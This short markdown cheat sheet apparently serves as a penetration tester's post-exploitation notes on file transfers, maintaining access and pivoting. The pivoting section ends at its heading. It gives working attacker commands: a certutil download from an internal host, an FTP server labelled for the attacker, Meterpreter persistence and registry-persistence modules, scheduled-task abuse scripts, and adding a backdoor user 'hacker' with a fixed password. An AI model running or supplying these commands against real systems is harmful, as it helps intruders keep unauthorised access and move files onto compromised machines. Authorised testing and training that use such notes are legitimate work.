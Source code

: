 **1 File Transfers**
**2 Maintaining Access**
**3 Pivoting**
**4 File Transfers**

---
**1. File transfers::**
+ Certutil
 `certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt`
+ HTTP
`python -m SimpleHTTPServer 89`
+ Browser
`Navigate to file`
+ FTP
```
python -m pyftpdlib 21 (attacker)
ftp 10.10.10.10
+ ```
+ Linux
`wget`
+ Meterpreter
`upload/download`
---
**2. Maintaining Access::**
+ Scripts (open port - obvious)
```
run persistence -h
/exploit/windows/local/persistence
/exploit/windows/local/registry_persistence
```
+ Scheduled Tasks (open port - obvious)
```
run scheduleme
run schtaskabuse
```
+ Add user
`net user hacker password123 /add`

**3. Pivoting::**
